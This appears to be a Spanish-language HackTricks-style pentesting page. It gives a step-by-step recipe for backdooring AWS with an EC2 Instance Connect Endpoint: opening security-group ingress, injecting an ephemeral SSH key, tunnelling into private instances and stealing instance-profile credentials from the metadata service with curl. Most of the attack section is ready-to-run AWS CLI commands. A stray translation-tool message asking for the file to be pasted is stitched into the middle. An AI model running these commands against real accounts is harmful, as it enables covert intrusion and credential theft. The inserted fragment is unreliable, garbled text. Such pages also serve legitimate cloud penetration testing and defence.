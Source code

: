 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

{{#include ../../../../banners/hacktricks-training.md}}

Abusar de EC2 Instance Connect Endpoint (EIC Endpoint) para obtener acceso SSH entrante a instancias EC2 privadas (sin public IP/bastion) mediante:
- Crear un EIC Endpoint dentro de la subnet objetivo
- Permitir SSH entrante en el SG objetivo desde el SG del EIC Endpoint
- Inyectar una clave pública SSH de corta duración (válida ~60 segundos) con `ec2-instance-connect:SendSSHPublicKey`
- Abrir un túnel EIC y pivotar hacia la instancia para robar las credenciales del instance profile desde IMDS

Impacto: ruta de acceso remota sigilosa hacia instancias EC2 privadas que evita bastions y restricciones de public IP. El atacante puede asumir el instance profile y operar en la cuenta.

## Requisitos
- Permisos para:
- `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
- `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Instancia Linux objetivo con servidor SSH y EC2 Instance Connect habilitado (Amazon Linux 2 o Ubuntu 20.04+). Usuarios por defecto: `ec2-user` (AL2) o `ubuntu` (Ubuntu).

## Variables
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```
## Crear endpoint EIC
```bash
aws ec2 create-instance-connect-endpoint \
--subnet-id "$SUBNET_ID" \
--security-group-ids "$ENDPOINT_SG_ID" \
--tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
--region "$REGION" \
--query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
aws ec2 describe-instance-connect-endpoints \
--instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
--query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
grep -q 'create-complete' EIC_STATE && break
sleep 5
done
```
## Permitir tráfico desde EIC Endpoint a la instancia objetivo
```bash
aws ec2 authorize-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```
## Inyectar clave SSH efímera y abrir túnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "$OS_USER" \
--ssh-public-key file:///tmp/eic.pub \
--region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
--instance-id "$INSTANCE_ID" \
--instance-connect-endpoint-id "$(cat EIC_ID)" \
--local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```
## Prueba de post-explotación (robar credenciales del instance profile)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```
No veo el contenido del archivo. Por favor pega aquí el contenido de src/pentesting-cloud/aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ec2-instance-connect-endpoint-backdoor.md para que lo traduzca al español manteniendo la sintaxis markdown/html y las reglas solicitadas.
```json
{
"Code": "Success",
"AccessKeyId": "ASIA...",
"SecretAccessKey": "w0G...",
"Token": "IQoJ...",
"Expiration": "2025-10-08T04:09:52Z"
}
```
Usa las creds robadas localmente para verificar la identidad:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```
## Limpieza
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
--instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```
> Notas
> - La clave SSH inyectada solo es válida por ~60 segundos; envía la clave justo antes de abrir el túnel/SSH.
> - `OS_USER` debe coincidir con la AMI (p. ej., `ubuntu` para Ubuntu, `ec2-user` para Amazon Linux 2).
{{#include ../../../../banners/hacktricks-training.md}}
